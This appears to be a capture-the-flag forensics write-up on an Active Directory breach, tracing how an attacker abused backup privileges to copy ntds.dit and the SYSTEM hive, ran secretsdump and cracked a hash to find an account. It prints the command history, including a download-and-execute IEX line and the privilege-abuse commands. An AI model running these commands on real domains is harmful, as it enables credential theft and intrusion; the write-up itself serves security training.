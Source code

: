 #### Key Files Found:
1. `EnableAllTokenPrivs.ps1` - PowerShell script enabling all Windows privileges
2. `hehe.txt` - Volume Shadow Copy Service (VSS) script
3. `ntds.dit` - Active Directory database 
4. `SYSTEM` - Registry hive 
5. `SeBackupPrivilegeUtils.dll` - Backup privilege exploitation DLL
6. `SeBackupPrivilegeCmdLets.dll` - Additional privilege tools

#### Attack Vector Analysis

**VSS Script Analysis (hehe.txt):**

![VSS Script](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/breached2.png)

This script creates a Volume Shadow Copy and exposes the C: drive as E:, allowing access to locked files.

**PowerShell Command History Found:**
```powershell
# Domain setup
Install-WindowsFeature -Name AD-Domain-Services -IncludeManagementTools
Install-ADDSForest -DomainName "dllm.hk" -InstallDNS

# Vulnerable AD environment creation
IEX((new-object net.webclient).downloadstring("https://raw.githubusercontent.com/wazehell/vulnerable-AD/master/vulnad.ps1"));
Invoke-VulnAD -UsersLimit 100 -DomainName "dllm.hk"

# The actual attack
diskshadow /s hehe.txt
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege E:\Windows\ntds\ntds.dit C:\Temp\ntds.dit
reg save HKLM\SYSTEM C:\Temp\SYSTEM
```

#### Hash Extraction and Cracking

I extracted the stolen AD database and registry hive, then used Impacket's secretsdump:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL > password_dump.txt
```

![Password Dump](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/breached3.png)

Knowing I needed to find an account with the plaintext password 8675309, I used CrackStation:

![Hash Cracking](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/breached4.png)

Hash `1c2f7f3b20a7a3c512c72c6551d5c8ae` appears to be the one with that plaintext password:

![User Discovery](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/breached5.png)

**Account Name:** `kassia.dotti`
